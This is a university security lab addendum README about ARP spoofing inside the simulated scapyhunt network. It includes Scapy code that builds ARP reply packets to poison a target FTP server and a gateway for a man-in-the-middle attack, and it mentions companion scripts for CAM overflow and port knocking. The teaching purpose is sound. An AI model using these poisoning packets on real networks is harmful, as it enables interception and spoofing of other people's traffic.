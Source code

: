 # Lab 3 Addendum - ARP spoofing

### Introduction
Now that you are done with Lab 3 we can cover one of the challenges that was
taken out prior to the lab being assigned, ARP spoofing.

Note: this is NOT a required/graded piece, just done over in class.

### Background
In the original version of scapyhunt, the final FTP server is configured to not
respond to most IP addresses.  In this exercise we re-enable that rule
and require you to use an additional technique to access the server, arp spoofing.

Take a look at [ceg4900 - lab 3](https://github.com/mkijowski/ceg-4900-lab3) for
our previous work.



### Resources
* [The scapy python library](https://scapy.net/)
* [`/scapy-hunt`](../master/scapy-hunt)
* [`/code`](../master/code/)
* Parrot OS
* [ARP](https://en.wikipedia.org/wiki/Address_Resolution_Protocol)
* [ARP spoofing](https://en.wikipedia.org/wiki/ARP_spoofing)
* [Man-in-the-middle attack](https://en.wikipedia.org/wiki/Man-in-the-middle_attack)

### Task 1 - So what changed
Not a whole lot to begin with.  We launch our simulated network with:
``` 
sudo python ~/ceg-4900-lab3/scapy-hunt/scapyHunt.py
```
We perform our cam overflow with the included `code/cam-overflow.py`

We capture, alter, and send the port knock sequence with `code/knock.py`

And now things get intersting.  Hopefully you all caught the IP of the FTP 
server in question `10.1.8.6`.  In this version of `scapyhunt` this server
only responds to a specific IP.

* What IP in scapyhunt should we be attempting to spoof for our FTP traffic to be
  accepted by `10.1.8.6` (consult `tcpdump`)?

### Task 2 - Spoof
Lets look at a basic arp spoof in scapy.

What are we trying to accomplish?  Well, to be a true Man-in-the-middle we need
our target to think we are the gateway (or other spoofed system), and we need
the gateway (or other spoofed system) to think we are the target.  So lets get
our info together:

* target_ip = "10.1.8.6"
* target_mac = "???"
* gateway_ip = "10.5.0.6"
* gateway_mac = "???"

Where do we get the Mac addresses?  Easy, check the network.

Now lets get poisoning.

We need to send two packets, one to the target, telling it that the IP address
belonging to the spoofed system has **OUR Mac address**.

The second to the spoofed system telling it that the IP address of the Target has **OUR Mac address**.

In scapy:
```
poison_target = ARP()
poison_target.op   = 2
poison_target.psrc = gateway_ip
poison_target.pdst = target_ip
poison_target.hwdst= target_mac
#   poison_targe.hwsrc= local_mac

poison_gateway = ARP()
poison_gateway.op   = 2
poison_gateway.psrc = target_ip
poison_gateway.pdst = gateway_ip
poison_gateway.hwdst= gateway_mac
#   poison_gateway.hwsrc= local_mac
```
Hopefully these packets are pretty obvious.  But we still need a lot of logic
wrapped around it and for that I refer to [code/arp.py](../master/code/arp.py)


### Acknowledgement
Huge shoutout to [jfsulliv](https://github.com/jfsulliv) for uploading scapyhunt!

